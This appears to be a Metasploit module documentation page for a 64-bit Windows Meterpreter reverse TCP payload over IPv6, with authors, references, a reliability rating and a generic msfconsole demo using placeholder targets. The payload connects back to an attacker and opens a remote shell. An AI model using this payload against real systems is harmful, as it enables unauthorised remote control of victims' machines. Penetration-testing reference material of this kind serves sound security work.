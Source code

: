 ## Windows Meterpreter Shell, Reverse TCP Inline (IPv6) (x64)

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/x64/meterpreter_reverse_ipv6_tcp

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter_reverse_ipv6_tcp
msf payload(meterpreter_reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(meterpreter_reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_ipv6_tcp) > run
```
    
    